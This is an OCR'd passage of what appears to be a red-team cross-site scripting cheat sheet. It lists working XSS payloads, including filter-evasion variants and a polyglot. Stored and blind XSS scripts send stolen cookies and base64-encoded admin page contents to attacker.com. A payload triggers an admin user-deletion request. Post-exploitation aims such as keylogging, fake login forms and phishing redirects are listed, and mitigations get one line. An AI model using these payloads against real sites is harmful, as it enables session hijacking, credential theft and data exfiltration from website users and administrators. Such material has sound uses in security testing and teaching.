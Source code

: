```bash

// Business Logic Abuse
<script>fetch('/admin/delete-user/123')</script>
FILTER EVASION TECHNIQUES
javascript
// Case Manipulation
<ScRiPt>alert(1)</sCrIpT>

// Encoding
&lt;script&gt;alert(1)&lt;/script&gt;
%3Cscript%3Ealert(1)%3C/script%3E

// Alternative Tags
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onload=alert(1)>

// Polyglot Payloads
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Parameter enumeration in URLs, forms, and API endpoints

Identification of data reflection points in HTTP responses

Analysis of client-side JavaScript for DOM-based vulnerabilities

EXPLOITATION PHASE
Reflected XSS Attacks

http
Malicious URLs: http://target.com/search?q=<script>alert(1)</script>
Social engineering campaigns
Stored XSS Deployment

javascript
// Comment sections, user profiles, forum posts
<script>setInterval(()=>{fetch('http://attacker.com/steal?cookie='+document.cookie)},10000)</script>
Blind XSS for Internal Access

javascript
// Target admin panels and internal applications
<script>fetch('/admin').then(r=>r.text()).then(d=>{fetch('http://attacker.com/leak?data='+btoa(d))})</script>
POST-EXPLOITATION
Session cookie harvesting and hijacking

Credential theft through fake login forms

Client-side keylogging and data exfiltration

Redirection to phishing/malware sites

📈 RISK ASSESSMENT
Impact: HIGH (Session compromise, credential theft)

Detection Difficulty: Medium (Client-side execution)

Exploitation Complexity: Low-Medium

🔧 MITIGATIONS UNDERSTOOD
Input validation and output encoding
```